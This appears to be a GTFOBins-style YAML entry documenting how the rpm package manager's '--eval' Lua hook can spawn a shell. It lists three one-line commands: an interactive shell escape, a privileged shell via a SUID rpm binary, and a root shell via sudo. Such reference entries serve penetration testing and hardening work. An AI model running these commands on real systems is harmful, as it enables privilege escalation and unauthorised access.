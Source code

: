 ```yaml
---
functions:
  execute-interactive:
  - code: rpm --eval '%{lua:posix.exec("/bin/sh")}'
  suid-enabled:
  - code: ./rpm --eval '%{lua:posix.exec("/bin/sh", "-p")}'
  sudo-enabled:
  - code: sudo rpm --eval '%{lua:posix.exec("/bin/sh")}'
---
```

